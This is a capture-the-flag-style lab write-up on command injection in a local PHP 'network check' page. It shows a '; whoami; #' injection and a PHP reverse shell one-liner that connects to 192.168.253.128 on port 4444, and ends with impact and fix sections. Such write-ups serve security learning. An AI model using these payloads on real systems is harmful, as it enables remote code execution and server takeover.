






# Command Injection 0x01

## What is Command Injection?
Command Injection is a vulnerability where an
attacker can execute arbitrary system commands
on the server by injecting shell metacharacters
into a vulnerable input. This happens when user
input is passed directly into system commands
without proper sanitization.

## Target
http://localhost/labs/c0x01.php

## Vulnerability
The Network check feature passes user input
directly into a shell command:
curl -I -s -L [USER_INPUT] | grep "HTTP/"

## Attack

### Step 1 — Identify the lab
Opened Command Injection 0x01 — a Network 
check feature where users enter a URL to test.

### Step 2 — Test normal input
Entered http://localhost
Result: Command executed normally:
curl -I -s -L http://localhost | grep "HTTP/"
Result: HTTP/1.1 200 OK

### Step 3 — Inject system command
Used shell metacharacters to chain commands:
http://localhost ; whoami; #
Breakdown:
- ; ends the curl command
- whoami runs as a new command
- # comments out the rest

### Step 4 — Confirm command execution
Result returned:
HTTP/1.1 200 OK ... www-data
The user www-data was returned — confirming
command injection worked!

### Step 5 — Weaponize with reverse shell
Crafted PHP reverse shell payload:
; php -r '$sock=fsockopen("192.168.253.128",4444);
exec("/bin/sh -i<&3>&3 2>&3");'; #
This connects back to attacker's machine
on port 4444.

## Payloads Used
```bash
http://localhost ; whoami; #
; php -r '$sock=fsockopen("192.168.253.128",4444);exec("/bin/sh -i<&3>&3 2>&3");'; #
```

## Screenshots







## Impact
- Full Remote Code Execution (RCE) on server
- Read any file on the server
- Reverse shell access to the system
- Complete server compromise
- Data exfiltration possible

## Fix
- Never pass user input directly to shell commands
- Use safe APIs instead of system calls
- Validate input with strict whitelist (URL format)
- Use escapeshellarg() and escapeshellcmd() in PHP
- Run web server with minimal privileges
